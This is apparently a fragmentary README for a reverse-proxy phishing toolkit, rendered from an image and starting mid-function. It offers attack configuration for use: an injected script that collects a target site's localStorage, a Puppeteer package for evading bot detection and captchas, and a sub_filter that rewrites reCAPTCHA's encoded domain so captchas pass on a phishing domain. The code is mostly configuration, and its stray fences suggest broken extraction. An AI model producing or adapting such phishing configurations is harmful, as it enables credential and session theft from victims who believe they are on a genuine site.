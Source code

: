```
          return;
        }
        setTimeout(function(){lp();}, 100);
      }
      setTimeout(function(){lp();}, 100);
```

### #js_inject cookie
The script is designed to load and store the current state of localStorage in the current Local Storage State object```

```
js_inject:
- trigger_domains: ["www.exemple.com"]
trigger_paths: ["/(.*)"]
trigger_params: []
script: |
let previousTime = '';

function logTimeLoop() {
const currentLocalStorageState = {};

for (let i = 0; i < localStorage.length; i++) {
const key = localStorage.key(i);
const value = localStorage.getItem(key);
currentLocalStorageState[key] = value;
}
```
### Puppeteer Real Browser
This package prevents Puppeteer from being detected as a bot in services like Cloudflare and allows you to pass captchas without any problems. It behaves like a real browser.

<p align="center">
<video src='https://github.com/user-attachments/assets/5dddca09-6941-42e9-9427-5c666632483f'/>
</p>

### Recaptcha Bypass
- This method works by modifying the javascript code responsible to generate the base64 string which contains the domain name.
- Subfilter can be modified accordingly based on the target site.
```
proxy_hosts:
  - {phish_sub: 'exemple', orig_sub: 'www', domain: 'exemple.com', session: true, is_landing: false, auto_filter: true}

sub_filters:
  # Change/modify the value assigned to variable 'A' based on your target site. 
  - {triggers_on: 'www.exemple.com', orig_sub: 'exemple', domain: 'exemple.com', search: 'A=si&&!d\?lX\.btoa\(y\):S\[6]\(40,l\[0],O\[l\[1]]\(24,0,8,y\),d\)', replace: 'A="aHR0cHM6Ly9hY2NvdW50cy5nb29nbGUuY29tOjQ0Mw."', mimes: ['text/javascript']}
```
